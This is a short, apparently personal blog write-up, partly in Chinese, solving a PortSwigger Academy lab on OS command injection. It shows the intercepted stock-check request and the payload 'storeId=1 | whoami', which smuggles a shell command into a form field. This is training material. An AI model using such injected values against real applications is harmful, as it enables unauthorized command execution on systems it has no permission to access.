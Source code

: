 ```yaml
---
layout: post
title: "simple case"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_CMD_Injection
author: ""
tags: ['PortSwigger_Lab', 'CMD_Injection']
---
```




# simple case

This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.


本實驗室包含產品庫存檢查器中的 [OS 命令注入](https://portswigger.net/web-security/os-command-injection) 漏洞。

應用程序執行一個包含用戶提供的產品和商店 ID 的 shell 命令，並在其響應中返回該命令的原始輸出。

解決實驗室，執行`whoami`命令來確定當前用戶的名字。




隨便點個view detail
```
https://0a1a00c003bed070c00424f4009b0003.web-security-academy.net/product?productId=3
```


下方有一個按鈕 bp抓包 :
三個選項
London
Paris
Milan

會到後端抓庫存。
43 units

BP抓包
```http
POST /product/stock HTTP/1.1
Host: 0a1a00c003bed070c00424f4009b0003.web-security-academy.net
Cookie: session=yJJP7f9QEVQkNBriLVurKAOjiZViiKAG
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a1a00c003bed070c00424f4009b0003.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0a1a00c003bed070c00424f4009b0003.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

productId=3&storeId=1
```


感覺 storeId 跟儲存有關係，根據hint 可以嘗試在後面加入

storeId=1 | whoami

顯示user:
peter-HBDz5q



成功。